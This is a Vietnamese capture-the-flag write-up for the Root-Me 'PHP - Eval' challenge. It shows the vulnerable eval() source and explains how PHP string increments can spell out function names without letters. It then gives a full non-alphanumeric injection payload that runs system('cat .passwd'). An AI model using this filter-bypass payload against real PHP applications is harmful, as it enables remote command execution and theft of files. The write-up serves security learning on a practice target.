


# PHP - Eval

**Tên challenge:**  Non-alphanumeric PHP Code

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

**Tác giả challenge:** chmod

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. The flag is in .passwd file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện khá đơn giản, chỉ có 1 tính năng Input duy nhất:



Ngoài ra, ta còn được cung cấp Source Code như sau:
```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```


Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('print '.$_POST['input'].";");
```
<u>**Giải thích:**</u>
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval(" print 1; system("cat .passwd"); ")
```

Tuy nhiên, ta đã bị filter từ `[ a -> z ]` và `[ A -> Z ]` do đoạn `preg_match` sau xử lý:
```
if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái ?

<u>**Trả lời:**</u>
* Sau khi đọc và tìm hiểu thì tôi tìm ra tài liệu có thể giúp Bypass được điều này: [Link](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
* Cụ thể, ta sẽ sử dụng những ký tự như `$`, `_`, `;`, `.`,... thay cho các chữ cái.
* **VD:** Trong PHP, ta có: `$a = 'Z'` thì khi ta `$a++` => `$a` sẽ trở thành `AA` thay vì là `[` như trong ngôn ngữ C.
* Tương tự nếu: `$a = 'A'` thì khi ta `$a++` => `$a` sẽ thành `B`. Nó chỉ trở thành `AA` khi mà nó mang giá trị `Z` cuối cùng trong bảng chữ cái, khi đó nếu mình tăng tiến `++` 1 giá trị của nó lên thì nó sẽ trở thành `AA`, nếu tiếp tục `++` thì thành `AB`, cứ vậy nối tiếp.

Ví dụ cụ thể hơn ta có 1 đoạn code như sau:
```
<?php

$_=[];

$_=@"$_"; // $_='Array';

$_=$_['!'=='@']; // $_=$_[0];

$___=$_; // A

$__=$_;

$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;

$___.=$__; // AS


?>
```
<u>**Giải thích chi tiết:**</u>
* `$_=[]`: Dòng này dùng để khai báo biến `$_` có giá trị mảng `[]`
* `$_=@"$_"`: Dòng này dùng để biến giá trị mảng `[]` thành chữ `Array`, nghĩa là biến `$_` lúc bấy giờ sẽ có giá trị string là `Array` ( `$_ = "Array"` )
* `$_=$_['!'=='@']`: Dòng này để gán biến `$_` thành giá trị đầu tiên `A` trong chuỗi string `Array`. Nó giống như đoạn code sau đây
```
$mot = "Abc";
$mot = $mot[0]; // $mot = "A";
```
* Thì `['!'=='@']` trong đoạn code trên là so sánh `XOR`, vì 2 thằng khác nhau nên giá trị sẽ trả về 0. Thực ra thì ta cũng có thể để thẳng là `[0]` luôn.
* `$___=$_`: Vì bấy giờ biến `$_` đã mang giá trị `A` nên mình khởi tạo 1 biến mới `$___` để tiếp nhận giá trị của `$_`, nghĩa là lúc này cả 2 biến `$_` và `$___` đều mang giá trị `A`.
* `$__=$_`: Giống như trên, ta khởi tạo 1 biến mới `$__` và gán cho nó giá trị `A` của biến `$_`.
* `$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;`: Đoạn code này là lấy giá trị của biến vừa khởi tạo ở trên rồi tịnh tiến `++` nó 18 lần. Nghĩa là giá trị `A` lúc này được `++` 18 lần là thành `S` => `$__` = `S`
* `$___.=$__`: Đoạn code này là nối đoạn, nó giống với `$a += $b // $a = $a + $b`. Thay vì `+` thì chỗ này nối đoạn là dấu `.` thôi. `$___` mang giá trị `A`, nối đoạn với giá trị `S` của `$__` => `$___` lúc bấy giờ sẽ mang giá trị là `AS`

=> Chỉ cần nắm được phần giải thích trên là ta có thể tự tạo riêng payload của mình.

**B2:** Thử payload `1;SYSTEM(STRTOLOWER("CAT .PASSWD")))`
```
1;$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____("$__________"))
```
Có thể input trực tiếp qua Website hoặc là dùng Burp-suite rồi URL encode để đảm bảo không xảy ra lỗi.



=> Ta đã thành công đọc được file `.passwd`

**Lưu ý:** `1` không nằm trong file `.passwd` nhé. `1` là giá trị `1;` mà `eval()` đã print ra.

